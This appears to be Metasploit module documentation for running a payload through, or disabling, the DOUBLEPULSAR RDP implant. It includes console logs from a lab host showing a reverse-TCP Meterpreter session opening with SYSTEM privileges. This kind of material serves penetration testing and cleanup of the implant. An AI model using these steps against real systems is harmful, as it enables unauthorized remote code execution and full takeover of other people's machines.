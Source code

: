 ## Introduction

This module executes a Metasploit payload against the Equation Group's
DOUBLEPULSAR implant for RDP.

While this module primarily performs code execution against the implant,
the `Neutralize implant` target allows you to disable the implant.

## Targets

```
Id  Name
--  ----
0   Execute payload
1   Neutralize implant
```

## Options

**DefangedMode**

Set this to `false` to disable defanged mode and enable module
functionality. Set this only if you're SURE you want to proceed.

**ProcessName**

Set this to the userland process you want to inject the payload into.
Defaults to `spoolsv.exe`.

## Usage

Pinging the implant:

```
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > check

[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[+] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows 6.1.7601 x64
[+] 192.168.56.115:3389 - The target is vulnerable.
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) >
```

Executing a payload:

```
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > set target Execute\ payload
target => Execute payload
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[+] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows 6.1.7601 x64
[*] 192.168.56.115:3389 - Generating kernel shellcode with windows/x64/meterpreter/reverse_tcp
[*] 192.168.56.115:3389 - Total shellcode length: 4096 bytes
[*] 192.168.56.115:3389 - Sending shellcode to DOUBLEPULSAR
[*] Sending stage (206403 bytes) to 192.168.56.115
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.115:49158) at 2019-11-25 18:10:21 -0600
[+] 192.168.56.115:3389 - Payload execution successful

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-S7TDBIENPVM
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

Neutralizing the implant:

```
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > set target Neutralize\ implant
target => Neutralize implant
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[+] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows 6.1.7601 x64
[*] 192.168.56.115:3389 - Neutralizing DOUBLEPULSAR
[+] 192.168.56.115:3389 - Implant neutralization successful
[*] Exploit completed, but no session was created.
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) >
```
